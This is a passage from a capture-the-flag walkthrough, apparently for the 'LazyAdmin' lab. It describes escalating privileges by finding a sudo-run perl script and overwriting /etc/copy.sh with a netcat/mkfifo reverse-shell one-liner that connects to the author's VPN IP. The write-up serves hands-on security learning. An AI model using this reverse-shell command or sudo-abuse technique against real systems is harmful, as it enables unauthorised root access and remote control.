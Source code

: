 Well, at this point we need to find a way to escalate our privilegies, as usual on a CTF challenge we do a simple command to see if our user is running something as `sudo`.

```shell
sudo -l
```

There's some script file written in perl that runs as sudo and maybe we can use it, so I look inside the file to understand it.

![sudo search](/imgs/lazyadmin/sudo_search.png)

Seems to have a script to call this file `/etc/copy.sh`, which turns out to actually be a script that tries to spawn a shell using netcat to connect to an ip, in this case if we just change the ip to be our ip(vpn ip) and change the port(which in this case isn't necessary but you can) then trigger the script, hopefully we'll become root.

So let's do that.

I tried to open the file with nano, but unfourtunatly I can't use it, so I tried Vim(I don't know much but if opens I will use it), but this time the system don't have vim on it.

![nano vim](/imgs/lazyadmin/nano_vim.png)

Well I guess I'll have to handcraft a new file with the information of the shell, using our ip and port.

We will use the `echo` command to achieve this.

I created the file, but when I ran it, didn't worked. I have missed a `/`, so I fixed and tried again.

```shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.7.215 8080 >/tmp/f" > /etc/copy.sh
```
The `echo` command followe by a single `>` overwrite the existing one instead of deleting and creating a new one.
